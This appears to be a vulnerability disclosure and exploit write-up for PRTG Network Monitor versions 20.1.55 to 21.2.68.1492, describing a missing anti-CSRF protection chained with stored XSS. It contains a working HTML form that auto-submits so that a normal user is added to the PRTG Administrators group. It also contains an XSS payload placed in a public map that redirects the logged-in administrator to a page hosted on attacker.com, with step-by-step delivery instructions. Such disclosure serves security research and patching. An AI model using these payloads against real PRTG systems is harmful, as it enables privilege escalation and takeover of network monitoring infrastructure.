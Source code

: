 # PRTG Network Monitoor v20.1.55 to 21.2.68.1492 - CSRF
Cross Site Request Forgery (CSRF) on PRTG Network Monitor version 20.1.55 to 21.2.68.1492

Exploit Title: Cross Site Request Forgery (CSRF)  
Date: 10/06/2021  
Exploit Author: Likhith CV  
Vendor Homepage: https://www.paessler.com/  
Software Link: https://www.paessler.com/prtg  
Test on Version: 20.1.55.1775+ and 21.2.68.1492+    
Affected Versions: not tested on other versions  


## Observation
It was observed that anti csrf tokens are not implemented in PRTG Network Monitor v20.1.55 to 21.2.68.1492

Severity: High

## Steps To reproduce:

To exploit this vulnerability normal user can simply create a HTML form that would add a normal user account to administrators group request and share the link with the victim. On clicking the link , the user account elevation request will be triggered in background and it shall create a user account from his valid session. Since this version is vulnerable to Stored XSS attacker chain XSS to CSRF

Any action can be performed on behalf of logged in user but for demonstration user account privilege escalation is shown as example

### Chaining XSS to CSRF

1. Create a CSRF payload as following
```javascript
<html>
  <body>  
 <form action="https://[PRTG_domain]/editsettings" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="name&#95;" value="PRTG&#32;Administrators" />
      <input type="hidden" name="defaulthome&#95;" value="&#47;welcome&#46;htm" />
      <input type="hidden" name="isadgroup" value="0" />
      <input type="hidden" name="adusertype&#95;" value="0" />
      <input type="hidden" name="aduserack&#95;" value="0" />
      <input type="hidden" name="users&#95;" value="1" />
      <input type="hidden" name="users&#95;" value="1" />
      <input type="hidden" name="users&#95;&#95;check" value="[user_id]&#124;[username]&#124;" />			<!--user_id and username-->
      <input type="hidden" name="users&#95;&#95;check" value="100&#124;PRTG&#32;System&#32;Administrator&#124;" />
      <input type="hidden" name="id" value="200" />
      <input type="hidden" name="targeturl" value="&#47;systemsetup&#46;htm&#63;tabid&#61;6" />
      <input type="submit" value="Submit request" />
    </form>
    <svg/onload='document.forms[0].submit()'/> 
  </body>
</html>



```
2. deliver the payload to admin of the PRTG Portal
3. once Admin opens your payload, normal user's privilege will be elevated


Since this version is vulnerable to stored XSS, XSS can be leverged to CSRF and used to trick admin in creating new user
### before elevating Privileges
![0before](https://user-images.githubusercontent.com/36541248/122039108-5f9a0180-cde7-11eb-8366-4b539992926b.png)

### Get user id from source code
![user_id](https://user-images.githubusercontent.com/36541248/122039169-6e80b400-cde7-11eb-961d-ada94074f825.png)


### CSRF Payload
![image](https://user-images.githubusercontent.com/36541248/122034254-6114fb00-cde2-11eb-83ae-a0b3d0ef812e.png)

### Hosting admin_csrf.html on attacker server
![host_csrf_payload](https://user-images.githubusercontent.com/36541248/122034421-91f53000-cde2-11eb-8fd5-1444897e31f9.png)

### Add a Map
![2add_map1](https://user-images.githubusercontent.com/36541248/122038569-cc60cc00-cde6-11eb-9ebe-b439d73d3411.png)

### Enter any name and select allow publilc access (so that our XSS payload is publically accessible)
![3add_map2](https://user-images.githubusercontent.com/36541248/122038633-dc78ab80-cde6-11eb-850f-08ce1a50b800.png)


### Go to Map Designer --> Drag and Drop a Icon --> Enter XSS payload in After HTML

```javascript
<img src=x onerror=document.location.href="http://attacker.com/admin_csrf.html"//">

```

![4add_map3](https://user-images.githubusercontent.com/36541248/122038644-e0a4c900-cde6-11eb-8421-ee3a87497f71.png)

### Click on Save

### New Map with XSS payload is created
![map_created](https://user-images.githubusercontent.com/36541248/122039511-cf0ff100-cde7-11eb-9ea3-531412c40944.png)

### Once Admin Logs in, he is displayed with malicious map created by normal user
![all_maps_disaplayed_on_admin](https://user-images.githubusercontent.com/36541248/122038939-32e5ea00-cde7-11eb-955a-3733fe44f5b0.png)


### Once the Admin Opens map CSRF Payload is triggered and new user account "user_test2" is created
![5after](https://user-images.githubusercontent.com/36541248/122038971-3aa58e80-cde7-11eb-908a-78bdfa40b638.png)


### Tested on  20.1.55.1775+ and 21.2.68.1492+   

![uasi_version](https://user-images.githubusercontent.com/36541248/122043872-e6051200-cdec-11eb-812e-70b27e31319d.png)


![image](https://user-images.githubusercontent.com/36541248/122044072-22d10900-cded-11eb-90cd-35d72a25bd6e.png)

